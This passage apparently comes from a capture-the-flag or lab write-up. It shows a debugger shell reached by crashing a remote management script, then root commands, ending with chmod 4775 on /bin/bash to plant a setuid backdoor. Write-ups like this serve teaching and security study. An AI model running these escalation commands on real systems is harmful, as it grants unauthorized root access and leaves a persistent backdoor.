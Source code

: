 After triggering we can look at our first session and have an interactive shell there.

\begin{wulisting}[caption=ssh session 1 - gdb shell]
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) §BL[1+1]BL§
2
(Pdb) §BL[import os]BL§
(Pdb) §BL[os.system("id")]BL§
uid=0(root) gid=0(root) groups=0(root)
(Pdb) §BL[os.system("chmod 4775 /bin/bash")]BL§
(Pdb) §BL[exit]BL§
\end{wulisting}

I chose to modify \enquote{/bin/bash} with a setuid bit to gain an interactive shell afterwards.

